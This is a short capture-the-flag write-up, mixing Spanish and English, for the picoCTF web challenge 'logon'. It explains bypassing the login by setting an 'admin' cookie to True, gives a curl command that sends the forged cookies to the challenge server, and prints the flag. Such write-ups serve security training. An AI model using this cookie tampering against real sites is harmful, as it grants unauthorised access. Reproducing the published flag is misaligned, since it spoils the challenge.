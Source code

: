 # 3. logon

## Descripción
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594

## Hints
Hmm it doesn't seem to check anyone's password, except for Joe's?

## Solución
El objetivo es lograr modificar la cookie "admin"; ponerle valor True para lograr acceder como admin.
Se puede hacer con una extensión editora de cookies, o con el comando curl al agregarle la opción -H "Cookie: admin=True; .... "

En este caso se utiliza el comando:
```
~$ curl -L https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: username=hola; password=hola; admin=True"

| grep pico


```

## Bandera 
```
picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}
```

## Notas adicionales


## Referencias

